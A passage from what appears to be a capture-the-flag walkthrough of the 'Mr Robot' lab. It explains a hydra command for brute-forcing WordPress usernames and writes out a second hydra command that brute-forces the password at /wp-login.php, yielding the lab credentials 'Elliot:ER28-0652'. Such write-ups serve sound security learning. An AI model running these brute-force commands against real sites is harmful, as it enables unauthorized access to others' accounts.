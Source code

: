 ![Mr Robot - Hydra Username](/images/mrrobot_hydra_username.png)

To summarise, the `hydra` command:

- `-L fsocity_filtered.dic`: Uses the filtered `fsocity.dic` file for the list of usernames to try
- `-p test`: Sets the password to `test` for every attempt
- `http-post-form`: Declares that the form we are bruteforcing is using `HTTP POST` requests
- `/wp-login.php`: The target endpoint
- `:log=^USER^&pwd=^PASS^&wp-submit=Log+In:Invalid username`: The parameters from our BurpSuite capture
- `-t 30`: Use 30 threads

Now we have the username, `Elliot`, we can use the same technique to get the password:

```console
$ hydra -l Elliot -P fsocity_filtered.dic 10.10.90.179 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:The password you entered for the username' -t 30
```

![Mr Robot - Hydra Password](/images/mrrobot_hydra_password.png)

With the credentials `Elliot:ER28-0652`, we can successfully log in to the admin dashboard of the Wordpress site:

![Mr Robot - Wordpress Dashboard](/images/mrrobot_wordpress_dashboard.png)
